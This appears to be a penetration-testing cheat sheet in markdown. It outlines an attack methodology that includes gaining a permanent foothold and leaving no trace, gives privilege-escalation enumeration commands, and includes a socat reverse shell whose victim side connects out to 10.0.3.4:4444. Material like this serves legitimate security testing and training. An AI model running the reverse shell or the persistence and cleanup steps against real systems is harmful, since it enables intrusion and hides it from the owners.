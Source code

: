 # Cheat Sheet
___________

    Recon - Scan for vulnarable targets, gather info on target.
    Collect - Enumeration, more enumeration and some more enumeration.
    Process - Sort through data, analyse and prioritisation.
    Search - Know what to search for and where to find the exploit code.
    	Determining the kernel of the machine (kernel exploitation such as Dirtyc0w)
    	Locating other services running or applications installed that may be abusable (SUID & out of date software)
    	Looking for automated scripts like backup scripts (exploiting crontabs)
    	Credentials (user accounts, application config files..)
    	Mis-configured file and directory permissions
    Adapt - Customize the exploit, so it fits. Not every exploit work for every system "out of the box".
    Try - Get ready for (lots of) trial and error.
    Stay - Get a permanent foothold
    Cleanup - Leave no trace behinde
___________

## Stabilize Shell
```
python -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm

stty raw -echo; fg
```
## Get reverse shell
atk:
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```
victim:
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
## Useful enumeration comands
List all processes runing as root
```
ps -aux | grep root
```
List all executibles with SUID set
```
find / -perm -u=s -type f 2>/dev/null
```
List what can be run with higher privileges
```
sudo -l
```
## Usefull common Linux commands

Make file executable
```
chmod +x filename
```
Double click in terminal
```
xdg-open [FILENAME]
```
What shell am I using
```
echo $0
```
Only show matches
```
2> /dev/null
```
Execute command/use file as another user
```
sudo -u "username" "path/to/command" "path/to/file"
```
## Python helper
Start a quick HTTP server
```
python3 -m http.server [PORT]
```
Spawn a shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
## Other Stuff

### Dirbuster

List of common file extentions
```
php, pl, sh, asp, html, json, py, cfm, aspx, rb, cgi
```
